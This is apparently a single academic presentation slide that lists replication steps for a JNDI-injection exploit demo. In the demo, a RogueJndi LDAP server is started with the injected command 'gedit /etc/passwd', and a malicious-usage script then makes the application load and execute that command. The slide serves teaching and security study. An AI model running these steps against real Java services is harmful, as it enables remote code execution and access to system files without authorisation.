

10
# Demo Steps (for replication later) for exploit
Make sure Java 17 (or earlier) is on PATH.
Inspect code in src/main/java and  run ./normal-usage.sh. This should log “this is an error”.
Now startup the LDAP server by going to root of the project and run java -jar target/RogueJndi-1.1.jar --command "gedit /etc/passwd".
This will inject the command argument in the bytecode that will be hosted on LDAP server.
Next, go back to the same directory where “normal-usage” was run. Run ./malicious-usage.sh. This will execute the malicious bytecode.
Aman Sharma | amansha@kth.se
10-09-2024